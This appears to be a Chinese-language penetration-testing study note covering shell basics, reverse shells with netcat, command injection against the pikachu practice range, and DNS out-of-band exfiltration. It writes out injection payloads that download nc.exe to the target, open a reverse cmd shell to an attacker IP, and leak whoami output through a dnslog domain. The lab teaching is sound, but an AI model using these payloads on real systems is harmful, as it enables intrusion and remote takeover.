





# 基础知识

## 一、命令行基础

### 1.1 kali shell

#### 1.1.1 IP配置

```bash
sudo vim /etc/network/interfaces
auto eth0
iface eth0 inet dhcp

auto eth1
iface eth1 inet static
address 192.168.0.112
netmask 255.255.255.0
sudo /etc/init.d/networking restart
```

#### 1.1.2 时区设置

```bash
sudo timedatectl set-timezone Asia/Shanghai
```

#### 1.1.2 SSH设置

```bash
sudo vim /etc/ssh/sshd_config
PasswordAuthentication yes
PermitRootLogin yes
PubkeyAuthentication yes
sudo /etc/init.d/ssh restart
sudo update-rc.d enable    # 设置开机自启
```

#### 1.1.4 python的虚拟环境

由于部分的Linux系统内置Python，并将系统Python环境标记为“外部管理”，这是为了防止管理员或用户通过pip安装包破坏系统依赖关系，因此直接在系统shell环境中直接使用pip安装软件包会报错。此时可以通过python虚拟环境隔离安装软件包，避免影响系统

1. 安装虚拟环境工具

   ```bash
   sudo apt install python3-venv
   ```

2. 创建并激活虚拟环境

   ```bash
   python3 -m venv ~/myenv
   source ~/myenv/bin/activate
   ```

3. 在虚拟环境中安装软件包

   ```bash
   pip install ds-store requests
   ```

4. 退出环境

   ```bash
   deactivate
   ```

### 1.2 Windows CMD

#### 1.2.1 基本操作

``` cmd
echo "Hello world" > test.txt    //重定向
fsutil file createnew f:\file.ini 40960000    //创建一个40M的空文件

del test.txt    //删除文件；删除命令可使用通配符

assoc .txt=exefile    //更改文件的关联程序，此命令表示将.txt后缀的文件修改为可执行文件
attrib +h test    //添加属性隐藏test目录
    +h：为目录设置隐藏属性
    +s：将目录设置为受保护、系统级的目录，普通账户无权限查看
    +a：为目录设置为只读
attrib -h test    //取消隐藏属性

dir -a c:\windows              //检索目录；a参数表示显示所有文件，包括隐藏文件
dir C:\Windows | more          //管道；分屏查看输出
msinfo32                       //查看系统信息
```

#### 1.2.2 账户管理

每个用户登录系统后拥有不同的操作权限，且每个账户有自己唯一的SID（安全标识符），一个完整的SID由系统ID+用户UID组成，系统ID代表了该主机的标识，在一台主机上所有账户的系统ID都是一样的。SID显示以S开头、以UID结尾，Windows系统管理员账户administrator的UID是500，普通账户的UID是1000开始

给不同的账户授限本质上是给不同账户的SID授权，因此当某个账户被删除后，重新创建一个同名的账户并不会让两者拥有相同的权限，因为SID已经产生了变化。Windows账号密码存储位置是`C:\Windows\System32\config\SAM`，默认的密码最长有效期是42天

```cmd
whoami /user        //查看当前账户的SID
net user            //查看系统上已存在的账户
net user hebor      //查看hebor账户的详细信息
net user hebor 1    //修改hebor的密码
net user hebor Huawei12#$ /add    //添加账户并设置密码
net user hebor /del    //删除账户
net user hebor /active:yes/no    //激活或禁用账户

net localgroup      //查看本地已有的组，与用户组相关操作基本以此指令开头
net localgroup Administrators    //查看管理员组的成员
net localgroup administrators hebor /add    //添加用户到管理员组
net localgroup administrators hebor /del    //将用户从管理员组删除
net localgroup 组名 /add    //新增组
net localgroup 组名 /del    //删除组
```

#### 1.2.3 网络与共享

cmd仅用于临时修改IP，虽然记录更改DNS的方式，但如果真的需要同时修改IP和DNS，还是建议使用Windows控制面板改

```cmd
netsh interface ip set address name="网卡名" static 192.168.42.211 25.255.255.0 192.168.42.1    //配置静态地址
netsh interface ip set dns name="以太网 3" static 223.5.5.5
netsh interface ip set address name="以太网 3" source=dhcp    //自动获取地址
netsh interface ip set dns name="以太网 3" source=dhcp

netstat /ano | findstr "80"    //过滤端口
    /a：显示所有连接和监听端口
    /n：以数字形式显示IP和端口号（不解析域名）
    /o：显示每个连接的进程PID

net share               //查看共享数据
net share 共享名 /del    //删除共享
net share 共享名=C:\Users\T450s\Desktop\share    //共享目录
```

## 二、反弹Shell

反弹Shell简单理解就是将目标主机的CLI会话，例如Linux的shell或Windows的CMD程序等，通过网络监听端口映射到攻击者主机上，然后攻击者通过自身的CLI窗口在目标主机上执行命令

[棱角社区](https://forum.ywhack.com/bountytips.php?download)提供了在线的文件下载和反弹Shell的快捷命令生成工具，文件下载命令对应不同的程序、不同系统自动生成对应的命令，反弹Shell也可利用诸多常见程序进行实现

### 2.1.1 文件下载

文件下载主要用于解决渗透测试过程中，目标主机或反弹Shell没有图形化回显的问题，此时要进行数据传输就只能通过命令行处理

```bash
# Linux
wget http://127.0.0.1:80/remote.txt -O local.txt
curl http://127.0.0.1:80/remote.txt -o local.txt

# Windows CMD
certutil.exe -urlcache -split -f http://127.0.0.1:80/remote.txt local.txt
bitsadmin /rawreturn /transfer down "http://127.0.0.1:80/remote.txt" C:\\Users\\hebor\\Desktop\\local.txt

# Windows POWERSHELL
wget http://127.0.0.1:80/remote.txt -O local.txt
curl http://127.0.0.1:80/remote.txt -o local.txt
```

Windows下通过命令行下载文件存在诸多限制条件，例如，不同版本的系统、或不同的命令行工具可以用于执行文件下载的命令用法都各不相同，因此Windows下的命令下文件下载操作需要根据实际情况而定。并且，使用命令行下载文件的操作，还有可能被Windows的防火墙识别为威胁

### 2.1.2 反弹Shell操作

实现反弹Shell需要具备两个前提条件：主机能够在网络中监听一个特定端口、主机能够将自身CLI程序映射到监听的端口上。主机监听某一个特定端口实现比较简单，任一后台守护进程都可以实现端口监听，但将主机自身CLI程序映射到监听的端口上，就需要特定的程序实现。此实验中采用nc（又称netcat）工具进行模拟测试，nc工具是Linux系统自带的网络工具，其`-e`选项用于建立连接后运行指定命令

此外，反弹Shell又分为两种连接类型：正向连接和反向连接，也称为正向Shell和反向Shell。正向或反向，它们都不是一个固定的方向，需要在攻击者或目标两者中取一个角色来进行相对定向，例如，对于攻击者而言，攻击者主动向目标发起连接，这就是正向连接

对于攻击者而言，目前的市面上常见的系统上默认的防火墙规则和网络NAT技术的广泛应用，已经杜绝了大部分的正向连接的可能性，大部分时候反向连接成功的可能性更大，即由目标主动向攻击者发起连接。若无特别声明，下文描述的所有方向都以攻击者视角出发

#### 2.1.2.1 正向连接

1. Windows使用nc工具监听8080端口

   ```cmd
   nc.exe -e cmd -lvvp 8080
   	-l：启用监听模式
   	-p：指定监听端口
   	-v：显示详细信息
   ```

   在使用nc工具监听端口前，需要检查一下Windows的防火墙规则，需要手动放行入站端口或直接关闭防火墙进行测试

2. Linux使用nc工具连接Windows的8080端口

   ```bash
   nc 192.168.104.212 8080
   ```

#### 2.1.2.2 反向连接

1. Linux使用nc工具监听8080端口

   ```bash
   nc -lvvp 8080
   ```

2. Windows使用nc工具将自身cmd程序会话主动映射到目标主机

   ```cmd
   nc.exe -e cmd 192.168.104.117 8080
   ```

上述示例中，无论是正向连接或反向连接，实现的结果都是将Windows的cmd程序的会话映射到Linux系统上，然后在Linux系统上就可以直接执行cmd指令远程管理Windows系统，即实现攻击者通过反弹Shell取得了目标的远程管理权限

如果抛开攻击者和目标的观念，仅从nc工具的角度出发，在上述实验中，nc工具也可以实现Windows反过来远程管理Linux系统。工具已经实现了功能，但怎么使用仍取决于人

### 2.1.3 数据回显

此处需要先了解一下Windows和Linux系统上的一些特殊符号，这些特殊符号大多是管道符、逻辑运算符、后台任务符，其中";"和"``"是Linux系统独有的符号

```
Windows：|、&、||、&&
Linux：;、|、||、&、&&、``
```

无论使用什么系统，在系统上执行的命令有误或命令参数有误时，系统都会产生错误回显，这个机制原本是便于系统管理员更快处理异常问题，但攻击者同样可以利用这个机制获取一些特定信息或执行一些特殊命令，例如，借助ping命令来获取当前账户信息

```cmd
ping; whoami     # ;符号属于Linux系统独有，此命令只能在Linux系统上使用
ping `whoami`    # 报错会提示找不到“主机名”，这个主机名实际上就是当前登录的账户名
ping | whoami    # 管道符多平台通用
```

既然可以通过管道符可以实现执行whoami命令，那么同样就可以执行其他命令，攻击者不用在意ping命令本身是否执行成功，重点在于借助管道符执行的特殊命令是否成功。如果一个Web站点提供了输入窗口，那么是否可以对这个窗口进行测试，检测其是否支持文件上传、运行程序等特殊命令

*以下实验需要用到pikachu靶场，但实验的最终目的不是为了测试靶场，而是理解数据回显的原理*，假设现在需要对某个为止Web站点进行测试，测试思路参考：

1. 判断目标系统

   

   通过回显的系统名称与账号名称即可初步判断目标主机是Windows，Windows系统不自带nc工具，因此接下来需要先考虑如何将工具上传到目标主机

2. 上传文件

   在输入窗口尝试输入Windows系统的文件下载命令，并将nc程序下载到C盘根目录下，在测试环境下可以直接进入目标Windows系统下验证文件下载是否成功

   ```cmd
   ping | certutil.exe -urlcache -split -f http://192.168.104.165/nc.exe c:\\nc.exe
   ```
   
    

3. 反弹Shell

   在输入窗口尝试运行nc程序，通过反向Shell主动连接到攻击者主机
   
   ```cmd
   ping | c:\\nc.exe -e cmd 192.168.104.117 8080
   ```

    
   
   反向Shell使用nc工具会在攻击者和目标之间产生一个长时间的会话连接，在Web站点上展现为pikachu的页面长时间刷新不出来，稍作等待后会提示504网关超时，手动刷新Web页面后即可恢复
   
#### 2.1.3.1 防火墙策略问题

在上述反弹Shell的实验中，无论是使用正向Shell或反向Shell，实际上都可以实现攻击者的远程管理。但如果目标主机处于一个NAT的内网环境下呢？如果目标主机防火墙策略默认启用呢？在诸多情况下正向Shell都比较难以实现渗透目标，一般情况下，使用反向Shell渗透的成功率会更高一些，但也只是相对更高

一般的项目场景下，防火墙策略重点针对入站策略进行限制，但也不排除有针对出战策略进行限制的可能。Windows的防火墙对出站和入站策略的限制严格度完全不同：对入站策略进行限制时，出站流量几乎不受影响；**对出站策略进行限制时，即便管理员没有显示的声明要对这些流量进行入站限制，防火墙也会对相同特征的流量做隐式入站限制**

例如，在Windows防火墙上添加出站策略，不允许流量走8080端口出站，此时即便管理员不手动配置8080端口的入站策略，Windows防火墙默认也会限制8080端口的入站流量，除非管理员手动配置放行8080端口的入站流量

#### 2.1.3.2 带外查询

正如数据回显的实验过程一般，顺利的情况下攻击者可以直接通过输入窗口和管道符拿到目标系统信息，但还需要考虑一种情况，如果输入窗口在提交命令后没有回显，攻击者如何判断命令是否被目标执行成功？

这种情况下需要考虑两种可能性，一种是目标站点对攻击者的输入进行了过滤，防止产生这种漏洞问题；另一种就是目标站点有这个漏洞，但攻击者无法直观的观察到。前者需要攻击者根据自身经验进行多维度测试绕过，后者则需要根据ping命令本身和DNS解析去实现带外查询

带外查询可以简单理解为，通过目标提供的输入窗口，访问攻击者能够直观看到日志的第三方站点，攻击者可以通过日志信息进行判断命令在目标主机上是否执行成功。但带外查询似乎也存在限制，它只能用于判断目标站点上是否存在漏洞，但无法观察到利用漏洞的过程。与反弹Shell相比，带外查询更像是反弹Shell的一个前置步骤

1. 关闭pikachu的ping回显；这一步骤是为了使用pikachu时使实验更拟真，这个操作步骤跟渗透思路没有关联

   ```cmd
   编辑 E:\phpstudy_pro\WWW\pikachu\vul\rce\rce_ping.php 配置文件，将配置文件中的echo注释掉
   //echo "<pre>{$result}</pre>";
   ```

   注释echo输出之后再对pikachu的Web网页进行测试，无论是否执行管道符、无论ping命令格式是否正确，都不在有回显提示

2. 利用第三方站点观察访问日志；此实验中使用[dnslog](http://dnslog.cn/)站点进行测试，先使用dnslog生成一个随机域名，在通过pikachu访问此域名，点击刷新记录即可看到pikachu的访问记录

   

3. 尝试特殊命令；既然正常ping命令可以成功执行，那么是否也能参杂其他命令混在ping命令内

   ```yaml
   # 1.通过Linux系统参杂其他参数到ping命令中，通过刷新dnslog的记录，可以看到解析成功
   ping whoami.e3wrng.dnslog.cn
   
   # 2.在进一步修改，为whoami命令添加命令替换符，可以看到dnslog的解析记录由whoami.e3wrng.dnslog.cn 替换为 root.e3wrng.dnslog.cn
   ping `whoami`.e3wrng.dnslog.cn
   ```

   通过dnslog站点的解析记录可以观察到，Linux系统上通过命令替换符和ping命令可以检测出，ping命令是否被成功执行、命令替换是否成功。换成Windows系统也可以根据这个思路进行处理，即便Web站点的数据不回显，但根据命令替换符和第三方站点的解析记录，就可以判断出命令在目标站点上是否能够成功执行

   然而此前提到过，在Windows系统上不识别"``"符，因此Windows与Linux使用的方法不一致，但思路是一样的。Windows系统的CMD不支持命令替换符，但Powershell支持变量赋值，因此可以显示的声明使用Powershell的变量进行测试

   ```cmd
   powershell
   $user=whoami;
   $url='.e3wrng.dnslog.cn';
   $result=$user+$url;
   echo $result
   win-2pgp719hknc\administrator.e3wrng.dnslog.cn
   ```

   很明显，输出的$result已经非常接近想要的结果了，但这个字符串中仍存在一个"\\"反斜杠无法被ping命令识别，因此还需要将反斜杠替换为正常字符

   ```cmd
   powershell
   $user=whoami;
   $users=$user.replace('\', 'hebor')    # 将反斜杠替换为hebor
   $url='.e3wrng.dnslog.cn';
   $result=$users+$url;
   echo $result
   win-2pgp719hkncheboradministrator.e3wrng.dnslog.cn
   ping $result
   ```

   此时在dnslog站点上即可刷新记录，看到Windows解析成功。同理，如果目标Web站点存在漏洞但没有回显的情况下，通过这个思路已经目标站点的输入窗口，同样可以实现反弹Shell操作

4. 通过pikachu的输入窗口进行测试

   根据上述命令思路，在pikachu的输入窗口中整合后的命令

   ```cmd
   127.0.0.1 | powershell $user=whoami; $users=$user.Replace('\', 'hebor'); $url='.e3wrng.dnslog.cn'; $result=$users+$url; ping $result
   ```

通过带外查询除了能够查看用户信息，也可以使用powershell支持的一些其他命令查看特定信息，带外查询可以用来获取特定信息，以及确认目标是否具备反弹Shell的前置条件。相比较反弹Shell的实验过程，带外查询需要关注ping命令是否执行成功，ping命令不能执行成功的情况下，无法观察到任何信息，当ping命令执行成功时，攻击者又应该观察命令替换的结果


